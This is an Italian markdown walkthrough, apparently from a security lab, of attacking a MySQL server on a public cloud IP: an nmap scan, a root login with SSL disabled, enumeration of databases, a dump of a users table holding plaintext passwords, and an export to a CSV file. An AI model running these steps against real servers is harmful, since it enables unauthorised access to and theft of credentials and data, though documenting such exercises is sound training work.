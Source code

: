 # MySQL

### 1. **Connessione al database MySQL**

Esplorare il database MySQL nella macchina target, identificare vulnerabilità e ottenere informazioni sensibili, come credenziali

#### Comando:
```bash
nmap -p 3306 35.152.43.69
```

***risultato***: 


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 06:03 EDT
Nmap scan report for ec2-35-152-43-69.eu-south-1.compute.amazonaws.com (35.152.43.69)
Host is up (0.0024s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds

```

***analisi***:
La porta 3306 è aperta per il servizio MySQL.

### **1.2 Tentativo di connessione via MySQL**
Abbiamo provato a connetterci al database MySQL da Kali usando la password di root, ma la connessione era protetta da SSL.

#### Comando:
```bash
mysql -h 35.152.43.69 -u root -p
```

output
```bash
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain
```


### **1.3 Connessione con SSL disabilitato**
Abbiamo disabilitato l'uso di SSL nella connessione per bypassare l'errore di certificato SSL.

#### Comando:
```bash
mysql -h 35.152.43.69 -u root -p --disable-ssl
```
Risultato: Connessione riuscita con successo.


### 2. **Esplorazione del database**

Esplorare i database e le tabelle per identificare informazioni sensibili.

#### Comando:
```bash
SHOW DATABASES;
```

***risultato***: 


```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mydb               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

```bash
USE mydb;
```
```bash
SHOW TABLES;
```

***risultato***: 


```bash
+----------------+
| Tables_in_mydb |
+----------------+
| secrets        |
| users          |
+----------------+
```

```bash
SELECT * FROM users;
```

***risultato***: 


```bash
+----+----------+-----------+
| id | username | password  |
+----+----------+-----------+
|  1 | testuser | testpass  |
|  2 | admin    | adminpass |
|  3 | testuser | testpass  |
+----+----------+-----------+
```

```bash
SELECT * FROM users WHERE username = 'admin';
```

***risultato***: 


```bash
+----+----------+-----------+
| id | username | password  |
+----+----------+-----------+
|  2 | admin    | adminpass |
+----+----------+-----------+
```

### 3. **Esportazione dei dati**

Esplorare i database e le tabelle per identificare informazioni sensibili.

#### Comando:
```bash
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/users.csv'
FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"'
LINES TERMINATED BY '\n';
```

***risultato***: 
L'export è riuscito con successo.